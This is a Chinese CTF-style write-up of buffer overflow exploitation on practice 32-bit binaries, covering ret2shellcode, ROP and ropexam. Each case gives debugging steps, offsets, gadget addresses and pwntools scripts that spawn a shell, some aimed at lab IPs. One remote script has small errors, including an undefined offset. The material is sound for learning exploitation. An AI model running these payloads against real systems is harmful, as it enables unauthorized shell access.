# rop基础练习

## ret2shellcode
>RET->可读可写可执行地址<-写shellcode

**checksec ret2shellcode**:查看栈保护

几乎无保护

**file ret2shellcode**：查看文件类型

32位可执行文件

**strings ret2shellcode | grep system**：查看有没有可以直接利用的系统调用

无

*gdb动态调试*

**info func**：查看函数

只有main函数

**disass main**：查看main函数汇编


关键点
```
 0x0804852d <+0>:     push   ebp
 |
 |
 |
 |
 0x0804858c <+95>:    lea    eax,[esp+0x1c]     //offset=112
 |
 0x08048593 <+102>:   call   0x80483d0 <gets@plt>
 |
 |
 0x08048598 <+107>:   mov    DWORD PTR [esp+0x8],0x64
 0x080485a0 <+115>:   lea    eax,[esp+0x1c]
 0x080485a4 <+119>:   mov    DWORD PTR [esp+0x4],eax
 0x080485a8 <+123>:   mov    DWORD PTR [esp],0x804a080
 0x080485af <+130>:   call   0x8048420 <strncpy@plt>

```

**偏移量**

offset=$ebp-$esp-0x1c+4=0x6c+4=112


**info file**：静态查看段


**vmmap**：查看段权限


可读可写可执行

**strncpy函数原型**

`char *strncpy(char *dest, const char *src, size_t n);`

- 参数1（dest）：目标缓冲区的起始地址（你要往哪儿写）。

- 参数2（src）：源字符串的起始地址（你要从哪儿复制）。

- 参数3（n）：最多复制的字节数（通常是你目标缓冲区的大小）。

- 返回值：返回 dest 的指针（其实就是把参数1原样返回）。

**在本题中**：

- n=0x64=100

- src=[esp+0x1c]    //gets函数读取的起始位置

- dest=*0x804a080   //该位置可读可写可执行

**payload思路**
```
（恶意shellcode+填充）+RET=116
         |             |
        112        dest=*0x804a080
```

**PoC**
```
from pwn import *

HOST='172.16.31.144'
PORT=32775
p=remote(HOST,PORT)
offset=112
RET=0x804a080
shellcode=asm(shellcraft.sh())

payload=shellcode.ljust(112,b'A')+p32(RET)

p.sendline(payload)
p.interactive()
```


## rop

>**gadget**：一堆简短有效的指令（pop eax、ret等），可以用来有效控制寄存器的值


**checksec rop**：查看程序有什么保护措施

发现栈不可执行

**strings rop | grep system**

发现没有直接的系统调用

**strings rop | grep /bin/**

但是出现了/bin/sh字符串，可以利用

**info file**：查看栈上各个段地址


**vmmap**：查看栈上各个段的权限


.bss段确实不可执行，因此不能跳到该部分执行指令
但是`0x8048000  0x80e9000 r-xp    a1000      0 /root/rop`可执行，可以考虑跳到这里

**disass main**：查看main函数汇编


*还有gets函数调用，还可以利用缓冲区溢出*

**计算offset**

`offset=$ebp-$esp-0x1c+4=112`


**信息汇总**

*程序中栈不可执行，也没有strncpy可以复制代码到可执行的区域执行，而且没有system等函数直接利用，而且但是有/bin/sh字符串，因此可以手动组合出系统调用的指令*

*先搞清楚怎么组合的，然后查找可以利用的gadget*

**int 0x80 的本质：是 x86 Linux 的系统调用门（System Call Gate），用于从用户态切换到内核态执行系统调用。**

触发方式
```assembly
int 0x80    ; 触发 0x80 号中断
```

- int = interrupt（中断指令）

- 0x80 = 中断向量号（128）

执行流程
```
用户态程序执行 int 0x80
    ↓
CPU 切换到内核态（ring 0）
    ↓
查找 IDT（中断描述符表）中的 0x80 号条目
    ↓
跳转到 Linux 系统调用入口点（entry_INT80_32）
    ↓
根据 EAX 中的系统调用号，调用对应的内核函数
    ↓
执行完成后，返回用户态（ring 3）
```

**execve("/bin/sh", NULL, NULL)**

在 32 位 Linux（i386）中：

- 系统调用号：execve 的调用号是 0x0b（11）。

- 传参方式：通过中断 int 0x80 触发，参数存放在寄存器中：

- EAX = 0x0b（调用号）

- EBX = 指向 "/bin/sh" 字符串的地址（文件名）

- ECX = 0（argv 数组指针，NULL）

- EDX = 0（envp 数组指针，NULL）

*核心目标：通过 ROP 控制 EAX, EBX, ECX, EDX，并跳转到 int 0x80*


**payload构造思路**

```
ebp
|
ret -- gadget地址
    |
    给需要的寄存器赋值
    |
    ret -- gadget地址
        |
        给需要的寄存器赋值
        |
        ret -- gadget地址
            
            ····
            
              |
              ret ——>int 0x80的地址
                        |
                执行系统调用execve(/bin/sh,null,null)
                            |
                          获得shell
```

**寻找需要的地址**

1. `ROPgadget --only 'pop|ret' --binary rop | grep eax`先看能给eax寄存器赋值的gadget
    
    尽量选短指令，不要影响别的寄存器
    `0x080bb196 : pop eax ; ret`
2. `ROPgadget --only 'pop|ret' --binary rop | grep ebx`再能给eax寄存器赋值的gadget
    
    `0x0806eb90 : pop edx ; pop ecx ; pop ebx ; ret`
    刚好这个gadget可以把需要的三个寄存器都赋值了
3. 查看int 0x80的地址
   
   `0x08049421 : int 0x80` 
4. 查看字符串/bin/sh的地址
   
   `0x080be408 : /bin/sh` 

*由于 gadgets 都是 pop ret 所以需要让 栈顶的值 等于 我们想要设置寄存器的值*

**构造栈布局**

```
esp+0x1c
|
|   ——————  108
|
ebp ——————  +4
|  
ret ——————>  0x080bb196
|                |
0xb ——————>   pop eax 
|                |
0x0806eb90      ret ——————> 0x0806eb90
|                                |
0                             pop edx  
|                                |
0                             pop ecx 
|                                |
0x080be408                    pop ebx
|                                |
0x08049421                      ret  ——————>  int 80
                                                |
                                              shell
```
payload=b'A'*offset+p32(0x080bb196)+p32(0xb)+p32(0x0806eb90)+p32(0x0)+p32(0x0)+p32(0x080be408)+p32(0x08049421)

**本地动态调试**
```
from pwn import *
p = process('rop')
elf = ELF('rop')

context.terminal = ['tmux','splitw','-h']
context.log_level = 'DEBUG'

Offset = 112
Binsh_addr = 0x080be408
POP_eax = 0x080bb196
POP_ebx_ecx_edx = 0x0806eb90
INT_0x80 = 0x08049421

payload = b'A' * Offset + p32(POP_eax) + p32(0xb) + p32(POP_ebx_ecx_edx) + p32(0x0) + p32(0x0) + p32(Binsh_addr) + p32(INT_0x80)

print('payload is :', payload)
gdb.attach(p,gdbscript='b *0x08048e9b')

p.send(payload)
p.interactive()
```

**PoC**
```
from pwn import *

HOST='172.16.30.6'
PORT=32818

p=remote(HOST,PORT)
payload=payload=b'A'*offset+p32(0x080bb196)+p32(0xb)+p32(0x0806eb90)+p32(0x0)+p32(0x0)+p32(0x080be408)+p32(0x08049421)
p.sendline(payload)
p.interactive()
```

## ropexam

**checksec ropexam**：查看程序有什么保护措施

发现栈不可执行

**strings ropexam | grep system**

发现没有直接的系统调用

**strings ropexam | grep /bin/**

但是出现了/bin/sh字符串，可以利用

**info func**：查看函数

漏洞函数vuln
int 80地址：0x08049000

**info file**：查看栈上各个段地址


**vmmap 0x08049000**：查看int 80指令是否位于可执行

可执行

**disass vuln**：查看vuln函数汇编


```
   0x0804902d <+6>:     mov    eax,0x3  ——————> 系统调用号3是sys_read()
   0x08049032 <+11>:    xor    ebx,ebx  ——————> fd=0
   0x08049034 <+13>:    lea    ecx,[ebp-0x68]——>buf
   0x08049037 <+16>:    mov    edx,0x200——————> count=512
   0x0804903c <+21>:    int    0x80     ——————> 执行系统调用
   0x0804903e <+23>:    leave  
   0x0804903f <+24>:    ret    
```

**sys_read**

>sys_read 是 Linux 系统调用，用于从文件描述符读取数据。

函数原型：`ssize_t read(int fd, void *buf, size_t count);`

参数：

- fd：文件描述符（0 = stdin, 1 = stdout, 2 = stderr）

- buf：缓冲区地址（存放读取的数据）

- count：要读取的字节数

返回值：实际读取的字节数

**存在缓冲区溢出**

缓冲区大小只有104但是读取了512字节

*可以利用溢出劫持ret*

**计算offset**

`offset=0x68+4=108`

**信息汇总**

*程序的vuln函数执行了系统调用sys_read()并造成缓冲区溢出，程序中存在/bin/sh字符串和int 80指令，且int 80位于可执行段。因此可以寻找gadget构造execve()函数*

**查询需要的地址**



**栈布局**

```
buf
|     
|       104
|
ebp     4
|
ret     ——————>     0x08049040  pop_eax_ret
|                   |
0xb                 pop eax
|                   |
0x08049042          ret     ——————>     0x08049042  
|                                           |
0x0804a024                                 pop ebx
|                                           |
0x08049044                                 ret     ————>0x08049044
|                                                            |
0x0                                                        pop ecx
|                                                            |
0x08049046                                                  ret ————>0x08049046
|                                                                         |
0x0                                                                      pop edx
|                                                                         |
0x08049000                                                               ret    ———>0x08049000
                                                                                        |
                                                                                        int 80
                                                                                        |
                                                                                        execve(/bin/sh)
```

**payload**=b'A'*offset+p32(0x08049040)+p32(0xb)+p32(0x08049042)+p32(0x0804a024)+p32(0x08049044)+p32(0x0)+p32(0x08049046)+p32(0x0)+p32(0x08049000)

**PoC**
```
from pwn import *

p=process('./ropexam')
elf=ELF('ropexam')

context.terminal=('tmux','splitw','h')
context.log_level='DEBUG'

offset=108
payload=b'A'*offset+p32(0x08049040)+p32(0xb)+p32(0x08049042)+p32(0x0804a024)+p32(0x08049044)+p32(0x0)+p32(0x08049046)+p32(0x0)+p32(0x08049000)

p.send(payload)
p.interactive()
```


